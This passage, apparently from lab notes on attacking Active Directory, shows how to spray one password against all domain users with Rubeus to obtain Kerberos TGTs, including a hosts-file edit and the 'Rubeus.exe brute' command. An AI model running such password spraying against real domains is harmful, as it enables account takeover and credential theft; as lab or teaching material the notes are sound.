 <figure><img src="../../.gitbook/assets/image (3) (9).png" alt=""><figcaption></figcaption></figure>

This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

**Victim**

```
echo $VICTIM CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
cd Downloads
Rubeus.exe brute /password:Password1 /noticket
```

<figure><img src="../../.gitbook/assets/image (11) (6).png" alt=""><figcaption></figcaption></figure>
